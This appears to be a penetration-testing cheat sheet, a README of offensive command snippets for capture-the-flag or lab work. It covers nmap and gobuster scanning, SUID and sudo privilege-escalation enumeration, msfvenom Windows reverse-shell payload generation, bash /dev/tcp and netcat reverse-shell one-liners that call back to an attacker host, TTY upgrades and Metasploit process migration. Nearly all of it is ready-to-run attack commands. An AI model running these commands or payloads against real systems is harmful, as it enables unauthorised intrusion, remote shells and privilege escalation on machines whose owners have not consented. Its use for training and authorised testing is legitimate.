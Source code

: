 [GTFOBins](https://gtfobins.github.io/), [LinSmartEnum](https://github.com/diego-treitos/linux-smart-enumeration), [LinEnum](https://github.com/rebootuser/LinEnum), [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), [LinuxExploitSuggester](https://github.com/mzet-/linux-exploit-suggester)

[Sherlock](https://github.com/rasta-mouse/Sherlock)

----
## scan ports
```bash
# nmap scan allports, service/version info, script scan
nmap -T4 -sC -sV -p- --min-rate=1000 -oN <FILE> <IP> -Pn

# masscan all tcp ports
massscan -p1-65535 <IP>
```

## find files
```bash
find / -iname <file>.txt 2>/dev/null # linux
dir <file>.txt /S /B # windows cmd
where /r C:\ <file>.txt
Get-ChildItem -Path C:\ -Filter <file>.txt -Recurse -ErrorAction SilentlyContinue -Force # windows powershell
```

## file/directory scan

```bash
# gobsuter scan php files
gobuster dir -u <IP> -w /SecLists/Discovery/Web-Content/raft-medium-words.txt -t 30 -x php

# gobuster scan directory
gobuster dir -u <IP> -w ~/usr/share/wordlists/dirb/big.txt -t 30
gobuster dir -u <IP> -w ~/SecLists/Discovery/Web-Content/raft-medium-words.txt -t 30

# dirsearch
dirsearch -u <IP> -w <wordlist>

# ffuf 
ffuf -u <IP>/FUZZ -w <wordlist>
```

----
## potential priv-esc
```bash
# list allowed sudo commands
sudo -l

# list files capabilities
getcap -r / 2>/dev/null

# find suid / sgid files
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
find / -type f -perm -4000 -exec ls -l {} \; 2> /dev/null
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls  -l {} \; 2> /dev/null
```

## windows msfvenom payloads
```bash
# windows reverse shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o payload.exe

# windows reverse shell uses exploit/multi/handler as listener
msfvenom -p windows/shell/reverse_tcp --platform=win --arch=x86 LHOST=<IP> LPORT=<PORT> -f exe -o payload.exe
```

## reverse shell
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1

/bin/bash -c '/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'

nc -e /bin/bash <IP> <PORT>
```

## etc
```bash
# ssh with public_key
ssh <user>@<server> -i ~/.ssh/id_rsa

# tty shell
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo
fg
enter

# check shared objects 
strace <file> 2>&1

# if sudo su not allowed
sudo -s
sudo -i
sudo /bin/bash
sudo password

# metasploit migrate to diff process
migrate <process_id>
```
